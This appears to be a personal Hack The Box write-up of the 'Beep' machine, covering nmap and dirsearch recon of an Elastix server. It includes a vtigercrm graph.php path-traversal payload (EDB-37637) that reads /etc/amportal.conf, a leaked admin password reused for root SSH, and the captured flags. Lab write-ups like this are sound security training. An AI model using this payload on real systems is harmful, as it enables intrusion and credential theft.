

**Start 14:30 18-08**

---
```
10.10.10.7
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.7        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 13:30 IST
Nmap scan report for 10.10.10.7
Host is up (0.084s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4445/tcp  open  upnotifyp
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 2.69 seconds

```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -p- -vvvv 10.10.10.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 13:31 IST

</SNIP>

Nmap scan report for 10.10.10.7
Host is up, received syn-ack (0.084s latency).
Scanned at 2024-08-18 13:31:09 IST for 853s
Not shown: 64812 closed tcp ports (conn-refused), 707 filtered tcp ports (no-response)
PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAI04jN+Sn7/9f2k+5UteAWn8KKj3FRGuF4LyeDmo/xxuHgSsdCjYuWtNS8m7stqgNH5edUu8vZ0pzF/quX5kphWg/UOz9weGeGyzde5lfb8epRlTQ2kfbP00l+kq9ztuWaXOsZQGcSR9iKE4lLRJhRCLYPaEbuxKnYz4WhAv4yD5AAAAFQDXgQ9BbvoxeDahe/ksAac2ECqflwAAAIEAiGdIue6mgTfdz/HikSp8DB6SkVh4xjpTTZE8L/HOVpTUYtFYKYj9eG0W1WYo+lGg6SveATlp3EE/7Y6BqdtJNm0RfR8kihoqSL0VzKT7myerJWmP2EavMRPjkbXw32fVBdCGjBqMgDl/QSEn2NNDu8OAyQUVBEHrE4xPGI825qgAAACANnqx2XdVmY8agjD7eFLmS+EovCIRz2+iE+5chaljGD/27OgpGcjdZNN+xm85PPFjUKJQuWmwMVTQRdza6TSp9vvQAgFh3bUtTV3dzDCuoR1D2Ybj9p/bMPnyw62jgBPxj5lVd27LTBi8IAH2fZnct7794Y3Ge+5r4Pm8Qbrpy68=
|   2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEA4SXumrUtyO/pcRLwmvnF25NG/ozHsxSVNRmTwEf7AYubgpAo4aUuvhZXg5iymwTcZd6vm46Y+TX39NQV/yT6ilAEtLbrj1PLjJl+UTS8HDIKl6QgIb1b3vuEjbVjDj1LTq0Puzx52Es0/86WJNRVwh4c9vN8MtYteMb/dE2Azk0SQMtpBP+4Lul4kQrNwl/qjg+lQ7XE+NU7Va22dpEjLv/TjHAKImQu2EqPsC99sePp8PP5LdNbda6KHsSrZXnK9hqpxnwattPHT19D94NHVmMHfea9gXN3NCI3NVfDHQsxhqVtR/LiZzpbKHldFU0lfZYH1aTdBfxvMLrVhasZcw==
25/tcp    open  smtp       syn-ack Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       syn-ack Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open  pop3       syn-ack Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING RESP-CODES APOP USER LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE STLS TOP EXPIRE(NEVER) UIDL
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            789/udp   status
|_  100024  1            792/tcp   status
143/tcp   open  imap       syn-ack Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: UNSELECT STARTTLS ACL Completed NAMESPACE OK LITERAL+ URLAUTHA0001 BINARY RIGHTS=kxte MULTIAPPEND CHILDREN CATENATE IDLE CONDSTORE THREAD=REFERENCES LISTEXT ANNOTATEMORE QUOTA UIDPLUS IMAP4rev1 THREAD=ORDEREDSUBJECT SORT=MODSEQ SORT LIST-SUBSCRIBED MAILBOX-REFERRALS X-NETSCAPE NO ID ATOMIC IMAP4 RENAME
443/tcp   open  ssl/http   syn-ack Apache httpd 2.2.3 ((CentOS))
|_http-title: Elastix - Login page
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-favicon: Unknown favicon MD5: 80DCC71362B27C7D0E608B0890C05E9F
|_ssl-date: 2024-08-18T12:43:04+00:00; +48s from scanner time.
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--/localityName=SomeCity/organizationalUnitName=SomeOrganizationalUnit/emailAddress=root@localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--/localityName=SomeCity/organizationalUnitName=SomeOrganizationalUnit/emailAddress=root@localhost.localdomain
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a:82b6:cf7e:1afa:5284:1c91:60c8:fbc8
| SHA-1: 800a:c6e7:065e:1198:0187:c452:0d9b:18ef:e557:a09f
| -----BEGIN CERTIFICATE-----

</SNIP >

|_-----END CERTIFICATE-----
792/tcp   open  status     syn-ack 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       syn-ack Cyrus pop3d
3306/tcp  open  mysql      syn-ack MySQL (unauthorized)
4190/tcp  open  sieve      syn-ack Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack
4559/tcp  open  hylafax    syn-ack HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 47s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:45
Completed NSE at 13:45, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:45
Completed NSE at 13:45, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:45
Completed NSE at 13:45, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 853.24 seconds

```

As you can see we have an absolute boatload of open ports, we will now have to find out which of these are relevant to us.
It looks like the machine is running on `CentOS`.

After having added the host as `beep.htb` I tried to look it up, but instantly got this error:


This means that the `https` web application is running a `TLS (Transport Layer Security)` version under `1.2`, hence why we cannot view it. This also means that it poses a great security to the website itself.
We of course still want to view the site so we we'll have to change the following in `about:config` to version `1`:

```
security.tls.version.min
```


Click on the `pen` icon and enter `1`. When done refresh the website and it should look like this:


After finding out that the website is powered by `elastix` we do a `dirsearch` for good measure

==dirsearch==
I enumerated the directories using the following commands:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://beep.htb/ -x 403,404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /home/kali/reports/http_beep.htb/__24-08-19_16-37-02.txt

Target: http://beep.htb/

[16:37:02] Starting: 
[16:37:02] 302 -  276B  - /%3f/  ->  https://beep.htb/?/                    
[16:37:02] 302 -  284B  - /%2e%2e//google.com  ->  https://beep.htb/google.com
[16:37:41] 200 -  548B  - /mailman/listinfo                                 

Task Completed
```

Here we see the `/mailman/listinfo` directory pop up, let's check it out.



This turns out not to be useful for us. Let's look further.

==Exploit.db==
I decided to hop on [Exploit.db](https://www.exploit-db.com/) and check what I could find on `Elastix`, turns out there's quite some vulnerabilities out there.


I checked all of them and `EDB-37637` stood out the most to me. 


We'll have to check out what this script does and how it works. I skimmed through the script and found that the script focusses on the following `vulnerable endpoint`:


Apparently `/vtigercrm/graph.php` is vulnerable. I then decided to check whether this endpoint was available using `dirsearch` again.

```bash    
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://beep.htb/vtigercrm/graph.php -x 403,404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /home/kali/reports/http_beep.htb/_vtigercrm_graph.php_24-08-19_19-06-48.txt

Target: http://beep.htb/

[19:06:48] Starting: vtigercrm/graph.php/                                        
[19:06:52] 302 -  295B  - /vtigercrm/graph.php/%2e%2e//google.com  ->  https://beep.htb/vtigercrm//google.com
[19:06:52] 302 -  296B  - /vtigercrm/graph.php/%3f/  ->  https://beep.htb/vtigercrm/graph.php/?/ # It appears to exist, which means we can exploit it using the previously found script

```

Since the endpoint exists we can exploit it by simply using the line we found on `ExploitDB` and moving to that endpoint.

```perl
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We go to this endpoint and see a massive `config file`.


From here we can simply grab the user credentials and get to cracking. I found the following line to be useful:

```
# This is the default admin name used to allow an administrator to login to ARI bypassing all security. # Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well ARI_ADMIN_USERNAME=admin # This is the default admin password to allow an administrator to login to ARI bypassing all security. # Change this to a secure password. ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

Since I noticed a case of password reuse across the `config file`, I tried to log into `SSH` using the `admin credentials found`.

Let's try to login using `root - jEhdIekWmdjE`

## 22/TCP - SSH

I tried connecting to `SSH` the normal way which didn't work:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

Using the `offer` we received I tried some methods until I found the correct way to connect:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh -o KexAlgorithms=+diffie-hellman-group14-sha1 -o HostKeyAlgorithms=+ssh-dss root@10.10.10.7

The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
DSA key fingerprint is SHA256:AGaW4a0uNJ7KPMpSOBD+aVIN75AV3C0y8yKpqFjedTc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (DSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 
```

What we did was simply try to connect to `SSH` using an older and outdated `Key Exchange Algorithm`. We allowed the client to accept `ssh-dss` keys and then we got the connection.

Now that we have the `root` shell we can go onto grabbing the flags.


## Flags

==user.txt==
I first grabbed the `root` flag and then decided to go into the `fanis` user's directory:

```bash
[root@beep ~]# cd /home
[root@beep home]# ls -l
total 12
drwxrwxr-x 2 fanis      fanis      4096 Oct 26  2023 fanis
drwx------ 2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
[root@beep home]# cd fanis && cat user.txt
dec69378a7985d8043034e70570f3d10
```

==root.txt==
We land in this directory right away so we can go ahead and `cat` the flag:

```bash
[root@beep ~]# ls -l
total 16248
-rw------- 1 root root     6025 Apr  7  2017 anaconda-ks.cfg
-r-xr-xr-x 1 root root   190461 Aug 10  2011 elastix-pr-2.2-1.i386.rpm
-rw-r--r-- 1 root root    18433 Apr  7  2017 install.log
-rw-r--r-- 1 root root        0 Apr  7  2017 install.log.syslog
-rw-r--r-- 1 root root        1 Apr  7  2017 postnochroot
-rw------- 1 root root       33 Aug 18 15:31 root.txt
-r-xr-xr-x 1 root root 16358730 Oct 31  2011 webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt
c2df875456f97069a67ac5acd2159e69
```


---

**Finished 20:39 19-08**

[^Links]: [[Hack The Box]] [[OSCP Prep	]]
